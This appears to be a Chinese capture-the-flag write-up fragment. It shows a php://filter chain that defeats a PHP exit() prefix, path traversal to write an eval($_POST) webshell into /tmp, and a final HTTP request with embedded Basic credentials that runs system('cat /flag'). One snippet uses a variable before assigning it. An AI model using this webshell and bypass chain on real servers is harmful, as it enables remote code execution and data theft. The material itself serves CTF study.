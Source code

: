 写到文件里的内容
```
<?php
//000000000000
 exit();?>
s:163:"php://filter/write=convert.base64-encode/resource=../../../../../../../../../../../../../../../../tmp/filenamebfe3467e649d6d158c51b5b5494ca5a2.php";
```
这里 https://www.leavesongs.com/PENETRATION/php-filter-magic.html 里面的方法已经不管用了，我们需要自己想出其他办法


这里我们用`php://filter/write=convert.base64-encode|string.rot13|convert.base64-decode/resource=`来绕过死亡exit
```php
    $backdoor = '<?php eval($_POST[1]);?>';
    $x = str_rot13(base64_encode($payload));
    $payload = base64_decode(str_rot13(base64_encode($backdoor)));
    assert(base64_decode($x) === $backdoor);
```

`$dieORexit --convert.base64-encode|string.rot13|convert.base64-decode--> something else`

`$payload   --convert.base64-encode|string.rot13|convert.base64-decode--> '<?php eval($_POST[1]);?>'` 

最后的payload:
`'path' => 'php://filter/write=convert.base64-encode|string.rot13|convert.base64-decode/resource=../../../../../../../../../../../../../../../../tmp/t'.urldecode("%09%0Fc%9DCm0%A3.%A0%FBq%2BS%82%1FQ%28d%8D%1C%06o%3E")`

```
POST /public/nationalsb/login.php HTTP/1.1
Host: 8.208.102.48
Authorization: Basic QWRtaW4xOTY0NzUyOkRzYVBQUFAhQCNhbXNwZTEyMjE=
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 126

file=%2ftmp%2ft%09%0Fc%9DCm0%A3.%A0%FBq%2BS%82%1FQ%28d%8D%1C%06o%3E743f45ea3d60a1190e3f723595050ca2.php&1=system('cat /flag');
```
